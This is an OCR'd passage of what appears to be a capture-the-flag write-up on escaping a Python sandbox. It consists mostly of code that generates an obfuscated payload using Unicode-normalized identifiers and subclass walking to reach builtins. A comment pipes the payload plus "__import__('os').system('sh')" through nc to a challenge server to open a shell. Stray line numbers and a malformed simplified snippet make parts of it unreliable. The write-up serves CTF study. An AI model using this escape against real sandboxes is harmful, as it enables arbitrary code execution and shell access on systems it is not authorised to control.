 ```
    while True:
        chr_code += 1
        char = unicodedata.normalize('NFKC', chr(chr_code))
        if char.isidentifier() and char not in names:
            names.append(char)
            break

offsets = {
    "__delitem__": 2800,
    "__getattribute__": 2850,
    '__dir__': 4693,
    '__repr__': 2128,
}

variables = ('keys', 'keys2', 'None_', 'NoneType',
             'm_repr', 'globals', 'builtins',)

for name, offset in offsets.items():
    names[offset] = name

for i, var in enumerate(variables):
    assert var not in offsets
    names[792 + i] = var

source = f'''[
({",".join(names)}) if [] else [],
None_ := [[]].__delitem__({_(0)}),
keys := None_.__dir__(),
NoneType := None_.__getattribute__({_.__class__}),
keys2 := NoneType.__dir__(NoneType),
get := NoneType.__getattribute__,
m_repr := get(
    get(get([],{_.__class__}),{_.__base__}),
    {_.__subclasses__}
)()[-{_(2)}].__repr__,
globals := get(m_repr, m_repr.__dir__()[{_(6)}]),
builtins := globals[[*globals][{_(7)}]],
builtins[[*builtins][{_(19)}]](
    builtins[[*builtins][{_(28)}]](), builtins
)
]'''.strip().replace('\n', '').replace(' ', '')

print(f"{len(source) = }", file=sys.stderr)
print(source)

# (python exp.py; echo '__import__("os").system("sh")'; cat -) | nc challenge.server port
12345678910111213141516171819202122232425262728293031323334353637383940414243444546474849505152535455565758596061626364656667686970717273
```
```
It basically does the following things, for those strings we get it from the `__dir__` method:

```python
getattr = (None).__getattribute__('__class__').__getattribute__
builtins = getattr(
  getattr(
    getattr(
      [].__getattribute__('__class__'),
    '__base__'),
  '__subclasses__'
  )()[-2],
'__repr__').__getattribute__('__globals__')['builtins']
builtins[[builtins['input']()|'eval']]
```
